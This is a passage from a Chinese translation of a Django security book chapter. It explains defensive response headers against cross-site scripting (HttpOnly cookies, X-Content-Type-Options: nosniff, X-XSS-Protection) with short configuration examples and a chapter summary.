Set-Cookie: sessionid=<session-id-value>; HttpOnly
```

会话 ID Cookie 应该始终使用`HttpOnly`。Django 默认情况下就是这样做的。这个行为由`SESSION_COOKIE_HTTPONLY`设置配置，幸运的是，默认值为`True`。如果您在代码存储库或拉取请求中看到这个设置被赋值为`False`，那么作者可能误解了它的含义。鉴于这个指令的不幸命名，这是可以理解的。毕竟，术语`HttpOnly`很容易被没有上下文的人误解为*不安全*。



图 14.3 Mallory 用反射型 XSS 攻击劫持了 Bob 的会话。

注意 在撰写本文时，安全配置错误位列 OWASP 十大安全风险的第 6 位（[`owasp.org/www-project-top-ten/`](https://owasp.org/www-project-top-ten/)）。

当然，`HttpOnly`不仅适用于您的会话 ID Cookie。一般来说，除非您有非常强烈的需要以 JavaScript 编程方式访问它，否则应该为每个 Cookie 设置`HttpOnly`。没有访问您的 Cookie 的攻击者的能力会减弱。

列表 14.9 演示了如何使用`HttpOnly`指令设置自定义 Cookie。`CookieSettingView`通过调用响应对象上的一个便利方法来添加一个`Set-Cookie`头。这个方法接受一个名为`httponly`的关键字参数。与`SESSION_COOKIE_HTTPONLY`设置不同，这个关键字参数的默认值是`False`。

列表 14.9 使用 HttpOnly 指令设置 Cookie

```py
class CookieSettingView(View):

    def get(self, request):
        ...

        response = HttpResponse()
        response.set_cookie(         ❶
            'cookie-name',
            'cookie-value',
                ...
            httponly=True)           ❷

        return response
```

❶ 将 Set-Cookie 头添加到响应中

❷ 将 HttpOnly 指令附加到头部

在下一节中，我将介绍一种用于抵抗 XSS 的响应头部。像`HttpOnly`指令一样，这个头部限制了浏览器以保护用户的安全。

### 14.4.2 禁用 MIME 类型嗅探

在我们深入研究这个主题之前，我将解释浏览器如何确定 HTTP 响应的内容类型。当你将浏览器指向一个典型的网页时，它不会一次性下载整个内容。它请求一个 HTML 资源，解析它，并为嵌入的内容（如图片、样式表和 JavaScript）发送单独的请求。为了渲染页面，你的浏览器需要用适当的内容处理程序处理每个响应。

浏览器如何将每个响应匹配到正确的处理程序？浏览器不关心 URL 是否以.gif 或.css 结尾。浏览器也不关心 URL 是来自``标签还是`<style>`标签。相反，浏览器通过`Content-Type`响应头部从服务器接收内容类型。

`Content-Type`头部的值称为*MIME 类型*或媒体类型。例如，如果你的浏览器接收到`text/javascript`的 MIME 类型，它会将响应交给 JavaScript 解释器。如果 MIME 类型是`image/gif`，则响应会交给图形引擎。

一些浏览器允许响应内容本身覆盖`Content-Type`头部。这被称为*MIME 类型嗅探*。如果浏览器需要弥补不正确或缺失的`Content-Type`头部，这很有用。不幸的是，MIME 类型嗅探也是一种跨站脚本攻击向量。

假设 Bob 为他的社交网络站点 social.bob.com 添加了新功能。这个新功能旨在让用户共享照片。Mallory 注意到 social.bob.com 不验证上传的文件。它还将每个资源都以`image/jpeg`的 MIME 类型发送。然后，她滥用了这个功能，上传了一个恶意的 JavaScript 文件，而不是照片。最后，Alice 在查看 Mallory 的相册时无意中下载了这个脚本。Alice 的浏览器嗅探内容，覆盖了 Bob 不正确的`Content-Type`头部，并执行了 Mallory 的代码。图 14.4 描绘了 Mallory 的攻击。



图 14.4 Alice 的浏览器嗅探 Mallory 脚本的内容，覆盖 MIME 类型，并执行它。

安全站点通过发送带有`X-Content-Type-Options`头部的每个响应来抵抗这种形式的 XSS。此头部如下所示，禁止浏览器执行 MIME 类型嗅探：

```py
X-Content-Type-Options: nosniff
```

在 Django 中，这个行为由`SECURE_CONTENT_TYPE_NOSNIFF`设置配置。这个设置的默认值在 3.0 版本中改为`True`。如果你运行的是旧版本的 Django，你应该明确地将这个设置分配为`True`。

### 14.4.3 `X-XSS-Protection`头部

`X-XSS-Protection` 响应头旨在启用客户端 XSS 抵抗。支持此功能的浏览器尝试通过检查请求和响应中的恶意内容来自动检测反射性 XSS 攻击。当检测到攻击时，浏览器将对页面进行清理或拒绝渲染。

`X-XSS-Protection` 头部在许多方面都没有获得足够的关注。该功能的每个实现都是特定于浏览器的。Google Chrome 和 Microsoft Edge 都已经实现并弃用了它。Mozilla Firefox 没有实现此功能，并且目前也没有计划这样做。

`SECURE_BROWSER_XSS_FILTER` 设置确保每个响应都有一个 `X-XSS-Protection` 头部。Django 使用块模式指令添加此头部，如下所示。块模式指示浏览器阻止页面渲染而不是尝试删除可疑内容：

```py
X-XSS-Protection: 1; mode=block
```

默认情况下，Django 禁用了此功能。您可以通过将此设置分配为`True`来启用它。启用`X-XSS-Protection`可能值得写一行代码，但不要让它成为虚假的安全感。这个头部不能被认为是一个有效的防御层。

本节介绍了`Set-Cookie`、`X-Content-Type-Options` 和 `X-XSS-Protection` 响应头部。它也作为下一章的热身，下一章将完全专注于一种响应头部，旨在减轻 XSS 等攻击。这个头部易于使用，非常强大。

## 摘要

+   XSS 有三种形式：持久性、反射性和基于 DOM。

+   XSS 不仅限于 JavaScript；HTML 和 CSS 也经常被武器化。

+   一层防御最终会使您受到威胁。

+   验证用户输入；不要对其进行消毒。

+   转义输出是最重要的防御层。

+   服务器使用响应头来通过限制浏览器功能来保护用户。
